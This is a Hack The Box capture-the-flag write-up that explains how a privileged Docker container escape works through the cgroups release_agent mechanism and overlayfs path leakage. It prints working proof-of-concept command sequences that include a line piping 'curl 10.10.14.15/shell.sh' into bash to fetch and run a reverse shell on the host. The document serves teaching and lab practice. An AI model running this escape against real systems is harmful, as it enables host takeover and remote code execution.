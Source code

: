 

# Digging into cgroups Escape

#ctf #hackthebox #htb-ready #docker #container #cgroups #escape
#overlayfs #release-agent May 17, 2021






-   [HTB: Ready](/htb-ready.md)
-   [Digging into cgroups](#)




![](/img/ready-cgroups-cover.png)

The method I used in Ready to get code execution on the host system from
a docker container running as privileged was a series of bash commands
that didn't make any sense on first glance. I wanted to dive into them
and see what was happening under the hood.

## Background

### POCs

The privileged Docker container escape POC I used looked like this:



    root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.15/shell.sh | bash' >/c;
    root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";



To explain how this works, I'll use a slightly different version of the
POC (from the same article) because it's a bit easier to follow:



    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
    echo '#!/bin/sh' > /cmd
    echo "curl 10.10.14.15/shell.sh | bash" >> /cmd
    chmod a+x /cmd
    sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"



Both POCs take the same steps:

1.  Find or create an access to the RDMA cgroup controller.
2.  Create a new cgroup within that controller.
3.  Register `notify_on_release` for that cgroup, and set the release
    agent to a file accessible via both the container and host.
4.  Start a quickly completing process within that cgroup that triggers
    execution of the release agent on termination.

### cgroups

The first thing to understand is the idea of
[cgroups](https://en.wikipedia.org/wiki/Cgroups). It's a Linux kernel
feature that isolates CPU (and other resource) usage to a collection of
processes within the cgroup. [Julia Evans](https://twitter.com/b0rk) has
a zine describing
[cgroups](https://twitter.com/b0rk/status/1214341831049252870):

[![](/img/ENo1dPRWsAA1CQE.png)*Click for
full size ![image*](/img/ENo1dPRWsAA1CQE.png)

cgroups are not exclusive to Docker, but they are used by Docker. [This
neat Medium post on Docker
Internals](https://medium.com/@BeNitinAgarwal/understanding-the-docker-internals-7ccb052ce9fe)
goes into a lot more detail about how Docker uses cgroups for resource
allocation.

### overlayfs

The other concept that comes into play here is
[overlayfs](https://en.wikipedia.org/wiki/OverlayFS), a "union mount
filesystem" implementation in Linux. In overlayfs, there are two
directories, upper and lower, that are merged to create another
directory that represents the combination of the two. [Julia
Evans](https://twitter.com/b0rk) has another really helpful zine for
overlayfs (she's such a good resource!):

[![](/img/overlay.jpeg)*Click for full size
![image*](/img/overlay.jpeg)

Julia has a
[post](https://jvns.ca/blog/2019/11/18/how-containers-work--overlayfs/)
that goes into more detail with examples as well. The idea is that you
can mount two file paths such that they create a third merged result.
For example, the lower might be a container base image, and the upper
might be changes made inside the container. In the merged result, if the
file exists in both upper and lower, it shows the one from upper. If it
doesn't exist in upper, it shows the one from lower.

What's important to know here is that by leaking the host's filepath to
the upper directory used for the docker container, I can write something
in the container, and know where it will be on the host.

## Steps

### Find / Create cgroup Controller

The first two commands (of three) in the first line in the POC is
creating a directory, and mounting it as an RDMA cgroup controller
(`mount -t cgroup -o rdma`):



    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x



It uses the RDMA cgroup, but others would works as well (there's a list
in the [cgroups man
page](https://man7.org/linux/man-pages/man7/cgroups.7.md)). In the
Trail of Bits post they show an error that comes up when there is no
RDMA cgroup, and suggest just changing `rdma` to `memory` to continue in
another cgroup.

The original POC finds an existing mount of the rdma cgroup controller
using a somewhat obfuscated `ls` command:



    root@gitlab:~# dirname $(ls -x /s*/fs/c*/*/r* |head -n1)    
    /sys/fs/cgroup/rdma



cgroup controllers are global resources, and mounting it again here
inside the container gives access to the same controller in the host.
Changes made here will be reflected in the host's RDMA controller.
Without being privileged, a container won't have access to this.

### Create New cgroup

Next, each POC creates a cgroup (directory) in that mount, `x` (or `w`
in the original POC):



    mkdir /tmp/cgrp/x



or



    mkdir -p $d/w;



On just creating the directory, several files are created:



    root@gitlab:~# ls /tmp/cgrp/x/
    cgroup.clone_children  notify_on_release  rdma.max
    cgroup.procs           rdma.current       tasks



### Configure Release

The next command is to write a 1 to `notifiy_on_release`, which [enables
cgroup notifications on
release](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt):

> <div>
>
> <div>
>
>     If the notify_on_release flag is enabled (1) in a cgroup, then
>     whenever the last task in the cgroup leaves (exits or attaches to
>     some other cgroup) and the last child cgroup of that cgroup
>     is removed, then the kernel runs the command specified by the contents
>     of the "release_agent" file in that hierarchy's root directory,
>     supplying the pathname (relative to the mount point of the cgroup
>     file system) of the abandoned cgroup.
>
> </div>
>
> </div>

In each POC:



    echo 1 > /tmp/cgrp/x/notify_on_release



or



    echo 1 >$d/w/notify_on_release



The majority of the remaining commands are dedicated to setting the
release agent. This is what will get run on the release notification.
First, the POC needs to find the mapping so that the host can reference
a file written in the container. `/etc/mtab` has a list of all the mount
points for the system, to include the overlayfs mount:



    root@gitlab:~# grep upper /etc/mtab   
    overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/GIXQ4D2FJ63I5OGALTCGDBK6KT:/var/lib/docker/overlay2/l/PZB5MARGIAOF6N5AAJNTVUFS52:/var/lib/docker/overlay2/l/4KSUGTOLFYSBJFJQH2NUGVL54R:/var/lib/docker/overlay2/l/PJ4IKL6MDRM2ZSGFRAXCVHVLUR:/var/lib/docker/overlay2/l/XLLFVBBMKEEE672BOIVTSZ5XQZ:/var/lib/docker/overlay2/l/33JTQXWWPTNINADNR6R3YM47KY:/var/lib/docker/overlay2/l/XG5BUSKVZNINSBJD2J7MMLU5A3:/var/lib/docker/overlay2/l/ZI5Y7RO6WUTDK3DQVTUTOA2ZWI:/var/lib/docker/overlay2/l/SRZJCUXAPFOW35HRDPW7OHQWXN:/var/lib/docker/overlay2/l/SLR2WWC4VRYMZRPZ6EHZQSLNYS:/var/lib/docker/overlay2/l/SJBEI24D42KKTO5Z54GMKQPPXO,upperdir=/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff,workdir=/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/work,xino=off 0 0



The next command in the POC uses `sed` to get just the string that is
the `upperdir` path:



    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`



Running that shows where on the host filesystem the container files are:



    root@gitlab:~# sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
    /var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff



As an experiment, I'll create a file in the root home dir on the
container:



    root@gitlab:~# echo "0xdf was here" > 0xdf 



With an SSH shell as root on the host, I can see that file shows up in
the `upperdir`:



    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff# ls
    bin  etc  home  opt  root  root_pass  run  tmp  usr  var
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff# cd root/
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff/root# ls
    0xdf
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff/root# cat 0xdf 
    0xdf was here



This helps because now I can write the release agent script (a simple
reverse shell) in the container, and then call it from the host. That's
what the next few commands do. Set the file from the host's perspective
as the `release_agent`:



    echo "$host_path/cmd" > /tmp/cgrp/release_agent



Write the reverse shell from within the container:



    echo '#!/bin/sh' > /cmd
    echo "curl 10.10.14.15/shell.sh | bash" >> /cmd
    chmod a+x /cmd



### Trigger Release

Now everything is set up so that when a process within this new cgroup
terminates, it will execute the reverse shell. All I need to do now is
start a process within that cgroup and then let it finish. The POC makes
use of a neat trick to do that. It starts an `echo` process, and has
that process output the PID of that process into the `cgroups.procs`
file:



    sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"



This leads to the PID being in that file, and then that `echo`
completing, which terminates the process. The system sees that PID
terminate, and finds it's PID in the `x` cgroup. It removes that PID
from the `cgroups.procs` file, and triggers the release agent.


[« HTB: Ready](/htb-ready.md)






